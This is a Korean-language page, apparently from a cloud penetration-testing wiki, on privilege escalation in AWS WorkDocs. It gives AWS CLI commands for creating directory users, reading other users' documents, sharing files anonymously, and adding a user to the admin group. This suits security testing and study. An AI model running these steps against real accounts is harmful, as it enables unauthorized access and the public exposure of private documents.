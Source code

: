 # AWS - WorkDocs Privilege Escalation

## WorkDocs

WorkDocs에 대한 자세한 정보는 다음을 확인하십시오:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

지정된 디렉터리 내에 사용자를 생성한 다음, WorkDocs와 AD에 모두 액세스할 수 있게 됩니다:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

파일에는 민감한 정보가 포함될 수 있습니다. 이를 읽어보세요:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

만약 당신이 무언가를 읽을 수 있는 권한이 없다면, 그것을 그냥 부여할 수 있습니다.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

사용자를 ZOCALO_ADMIN 그룹에 설정하여 관리자로 만들 수 있습니다.\
그를 위해 [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)의 지침을 따르세요.

해당 사용자로 workdoc에 로그인하고 `/workdocs/index.html#/admin`에서 관리자 패널에 액세스하세요.

CLI에서 이 작업을 수행하는 방법을 찾지 못했습니다.
